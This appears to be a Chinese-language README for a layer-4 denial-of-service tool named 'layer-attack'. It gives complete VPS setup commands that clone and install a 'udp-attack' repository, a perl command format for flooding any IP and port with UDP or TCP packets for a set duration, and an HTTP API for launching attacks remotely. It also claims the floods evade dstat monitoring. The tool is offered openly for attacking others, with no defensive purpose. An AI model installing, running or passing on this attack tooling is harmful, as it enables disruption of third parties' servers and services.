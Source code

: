 # layer-attack 一个简单的layer4攻击程序
# 版本：1.1
# 发布时间：2020/02/07
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
请选择磁盘丰富的位置 执行以下命令
<br>

```BASH
cd ~
yum update
yum install epel-release -y
yum install http://rpms.remirepo.net/enterprise/remi-release-7.rpm
yum install yum-utils -y
yum-config-manager --enable remi-php72
yum install php72 -y
yum install php72-php-fpm php72-php-gd php72-php-json php72-php-mbstring php72-php-mysqlnd php72-php-xml php72-php-xmlrpc php72-php-opcache -y
systemctl enable php72-php-fpm.service
yum install -y git wget curl net-tools
git clone https://github.com/KLDGodY/udp-attack.git
cd udp-attack
perl setup.pl
```

<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，api地址是<pre>http://你的服务器地址/api.php?key=[yourvpspassword(root)]&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，攻击不会在dstat中呈现
<br>
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodygroup">@KLDGodYGroup</a><br>欢迎各位dl加入，，，
